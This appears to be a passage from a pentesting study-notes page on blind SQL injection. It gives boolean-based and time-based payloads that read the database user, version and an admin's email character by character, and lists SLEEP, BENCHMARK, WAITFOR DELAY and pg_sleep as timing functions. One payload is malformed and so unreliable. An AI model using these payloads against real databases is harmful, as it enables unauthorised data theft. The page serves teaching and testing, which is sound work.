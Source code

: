 user() returns the name of the user currently using the database.
substring() returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

Boolean based query:

```
' OR substring(user(), 1, 1) = 'a
' OR substring(user(), 1, 1) = 'b
```

More interesting queries:

```
# Database version
1 and substring(version(), 1, 1) = 4--

# Check that second character of the column user_email for user_name admin from table users is greater than the 'c' character  
1 and substring((SELECT user_email FROM users WHERE user_name = 'admin'),2,1) > 'c'
```

#### Time based

??? example "Dictionaries"
    [https://github.com/amandaguglieri/dictionaries/blob/main/SQL/time-based](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/time-based)

!!! quote "Resources"
    - [OWASP resources](https://owasp.org/www-community/attacks/Blind_SQL_Injection)

Vulnerable SQL query:

```SQL
SELECT * from users WHERE username = '[username]' AND password = '[password]';
```

Time base query: 

```
' OR SLEEP(5) -- '
```

Interesting queries: 

```
1' AND SUBSTRING(user(), 1, 1 = 'r') sleep(0), sleep(10));#
```


Examples of available wait/timeout functions include:

- `WAITFOR DELAY '0:0:10'` in SQL Server
- `BENCHMARK()` and `sleep(10)` in MySQL
- `pg_sleep(10)` in PostgreSQL

```

```


## Extra Bonus: Bypassing quotation marks
